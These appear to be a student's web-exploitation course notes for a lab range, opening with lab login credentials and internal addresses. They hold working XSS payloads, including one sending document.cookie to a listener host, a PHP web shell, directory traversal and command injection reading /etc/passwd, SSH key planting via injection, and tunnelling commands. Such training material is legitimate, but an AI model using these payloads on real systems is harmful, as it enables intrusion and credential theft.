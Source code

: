 # Stack Info
```
--Stack Number
  5

--Username
CODA-503-M

--Password
Gx1LjlSgOgQJJMy

Boxes
Student - Password
--Linux ops
10.50.31.135
 
--Windows
10.50.24.133

--Jump
10.50.27.155

--Password
Gx1LjlSgOgQJJMy

--CTFd
http://10.50.20.30:8000/resources
```
# Day 1 - XSS
## Enumeration
```
    Robots.txt

    Legitimate surfing

    Tools:

        NSE scripts

        Nikto
```
## Reflected XSS
```
    Most common form of XSS

    Transient, occurs in error messages or search results

    Delivered through intermediate media, such as a link in an email

    Characters that are normally illegal in URLs can be Base64 encoded


Below is what you see, but the server will decode as name=abc123


http://example.com/page.php?name=dXNlcjEyMw
```
## Stored XSS
```
    Resides on vulnerable site

    Only requires user to visit page


<img src="http://invalid" onerror="window.open('http://10.50.XX.XX:8000/ram.png','xss','height=1,width=1');">
```
## Useful JavaScript Components
```
Proof of vulnerability to xss (simple alert):

<script>alert('XSS');</script>

    Capturing Cookies
    document.cookie

    Capturing Keystrokes

        bind keydown and keyup

    Capturing Sensitive Data
    document.body.innerHTML
```
## More Stored XSS 
```
On Box
python3 -m http.server

On Website
<script>document.location="http://x.x.x.x:8000/"+document.cookie;</script>
```
## Server-Side injection
```
Directory Traversal/Path Traversal


    Ability to read/execute outside web server’s directory

    Uses ../../ (relative paths) in manipulating a server-side file path


view_image.php?file=../../etc/passwd
```
## Malicious File Upload
in the near future there may be a time when you can upload a file but it will be uploaded somewhere seperate. ** MUST be able to upload AND call your file
```
<HTML><BODY>
  <FORM METHOD="GET" NAME="myform" ACTION="">
  <INPUT TYPE="text" NAME="cmd">
  <INPUT TYPE="submit" VALUE="Send">
  </FORM>
  <pre>
  <?php
  if($_GET['cmd']) {
    system($_GET['cmd']);
    }
  ?>
  </pre>
  </BODY></HTML>
```
## Command Injection
```
Application on the server is vulnerable,
allowing execution of arbitrary commands

    User input not validated
        Common example is a SOHO router, with a web page to allow ping

Might contain the following in it’s code:
system("ping -c 1 ".$_GET["ip"]);


Run the following to chain/stack our arbitrary command
; cat /etc/passwd
```

## Upload publickey 
```
ssh keys stored in /etc/ssh
ssh-keygen -t rsa -b 4096
cat .ssh/id_rsa
cat .ssh/id_rsa.pub

; ls -lisa /var/www/
; mkdir /var/www/.ssh
; ls -lisa /var/www/.ssh
; echo "your_public_key_here" >> /var/www/.ssh/authorized_keys

ssh -i .ssh/id_rsa www-data@x.x.x.x
```
# Notes
```
ssh -MS /tmp/jump student@10.50.27.155
  2 ssh -S /tmp/jump dummy -O forward -D 9050
  3 proxychains nmap -T4 10.100.28.40 --script=http-enum
  4 
  5 ssh -S /tmp/jump dummy -O forward -L 1111:10.100.28.40:80
  6 firefox localhost:1111
  7 
  8 uploaded webshell.php
  9 
 10 ssh -S /tmp/jump dummy -O forward -L 4041:10.100.28.40:4444
 11 proxychains ssh -i .ssh/id_rsa billybob@10.100.28.40 -p 4444
 12 
 13 ssh -MS /tmp/t1 billybob@127.0.0.1 -p 4041
 14 ssh -S /tmp/t1 fug -O forward -L 6767:10.100.28.55:22
 15 ssh -S /tmp/t1 fug -O forward -D 9050
 16 firefox localhost:6999
 17 
 18 inspect element on the websit and check functions
 19 call the function in the console
 20 
 21 Directory Traversal, use GET or POST methond
 22 eg., http://localhost:6999/books_pick.php?book=
 23 Use ../../../../etc/passwd
```

# Day 2 WEB EXPLOIT
## SQL Injection
### Standard Commands

** SELECT
Extracts data from a database

** UNION
Used to combine the result-set of two or more SELECT statements

USE
Selects the DB to use

UPDATE
Updates data in a database

DELETE
Deletes data from a database

INSERT INTO
Inserts new data into a database

CREATE DATABASE
Creates a new database

ALTER DATABASE
Modifies a database

CREATE TABLE
Creates a new table

ALTER TABLE
Modifies a table

DROP TABLE
Deletes a table

CREATE INDEX
Creates an index (search key)

DROP INDEX
Deletes an index
```
